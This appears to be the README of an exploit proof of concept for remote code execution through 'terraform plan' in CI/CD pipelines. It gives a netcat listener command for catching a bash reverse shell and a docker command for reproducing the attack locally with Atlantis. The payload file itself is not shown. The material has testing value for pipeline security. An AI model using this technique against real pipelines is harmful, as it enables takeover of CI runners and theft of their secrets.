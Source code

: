 
# Overview
Src - https://alex.kaskaso.li/post/terraform-plan-rce

But with bash reverse shell, as on terraform runner.
Following exploit can be tested on CI/CD pipeline that is running `terraform plan` on each commit to git repository, when Pull Request is open for branch.


# Testing with atlantis locally

## One terminal tab (either locally or on different host)
```bash
nc -vklp  4242
```

## Second terminal tab (either same host or remote host)

```bash
# `--net=host` is only needed if you want to connect to same host, where docker container is running
# Then in exploit, you need to use as remote address `host.docker.internal` as equivalent to `localhost` pointing from container to its host system
# ghcr.io/runatlantis/atlantis@sha256:5cced9af236abd0743018e41fbe1b574a0bb739c0566102628f4c7553945cffc
docker run --net=host -v "$(pwd)":/app -it ghcr.io/runatlantis/atlantis bash -c "cd /app; terraform init; terraform plan"
```
